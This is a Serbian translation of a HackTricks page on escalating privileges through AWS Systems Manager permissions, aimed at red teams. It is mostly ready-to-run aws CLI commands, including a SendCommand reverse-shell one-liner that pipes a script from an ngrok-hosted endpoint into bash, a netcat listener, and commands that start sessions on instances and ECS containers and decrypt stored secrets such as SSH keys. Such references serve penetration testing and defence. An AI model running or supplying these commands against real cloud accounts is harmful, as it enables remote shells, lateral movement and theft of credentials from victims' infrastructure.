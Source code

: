 # AWS - SSM Privilegija eskalacija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## SSM

Za više informacija o SSM proverite:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Napadač sa dozvolom **`ssm:SendCommand`** može **izvršavati komande na instancama** koje pokreću Amazon SSM Agent i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
U slučaju da koristite ovu tehniku za eskalaciju privilegija unutar već kompromitovanog EC2 instanca, jednostavno možete uhvatiti reverzibilnu ljusku lokalno sa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencijalni uticaj:** Direktno privescovanje na EC2 IAM uloge prikačene za pokrenute instance sa pokrenutim SSM agentima.

### `ssm:StartSession`

Napadač sa dozvolom **`ssm:StartSession`** može **pokrenuti SSH sličnu sesiju na instancama** koje pokreću Amazon SSM Agenti i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Da biste započeli sesiju, potreban vam je instaliran **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencijalni uticaj:** Direktno podizanje privilegija na EC2 IAM uloge prikačene za pokrenute instance sa pokrenutim SSM agentima.

#### Podizanje privilegija na ECS

Kada **ECS zadaci** rade sa omogućenim **`ExecuteCommand`**, korisnici sa dovoljno dozvola mogu koristiti `ecs execute-command` da **izvrše komandu** unutar kontejnera.\
Prema [**dokumentaciji**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) ovo se postiže stvaranjem sigurnog kanala između uređaja koji koristite za pokretanje "_exec_" komande i ciljnog kontejnera sa SSM Session Manager-om. (SSM Session Manager Plugin je neophodan za ovo da funkcioniše)\
Stoga, korisnici sa `ssm:StartSession` će moći da **dobiju shell unutar ECS zadataka** sa tom opcijom omogućenom jednostavno pokretanjem:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencijalni uticaj:** Direktno privesc do `ECS` IAM uloga povezanih sa pokrenutim zadacima sa omogućenim `ExecuteCommand`.

### `ssm:ResumeSession`

Napadač sa dozvolom **`ssm:ResumeSession`** može ponovo **pokrenuti sesiju sličnu SSH-u na instancama** koje pokreću Amazon SSM Agent sa **isključenim** stanjem SSM sesije i **ugroziti IAM ulogu** koja se izvršava unutar nje.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencijalni uticaj:** Direktno privesc do EC2 IAM uloga prikačenih za pokrenute instance sa pokrenutim SSM agentima i prekinutim sesijama.

### `ssm:OpisParametara`, (`ssm:GetParametar` | `ssm:GetParametri`)

Napadač sa navedenim dozvolama će moći da izlista **SSM parametre** i **pročita ih u čistom tekstu**. U ovim parametrima često možete **pronaći osetljive informacije** kao što su SSH ključevi ili API ključevi.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar parametara.

### `ssm:ListCommands`

Napadač sa ovlašćenjem može da izlistava sve **komande** poslate i nadamo se pronaći **osetljive informacije** u njima.
```
aws ssm list-commands
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar komandnih linija.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Napadač sa ovim dozvolama može da izlistava sve **komande** poslate i **čita izlaz** generisan, sa nadom da pronađe **osetljive informacije** u njima.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar izlaza komandnih linija.

### Codebuild

Takođe možete koristiti SSM da pristupite projektu codebuild koji se gradi:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

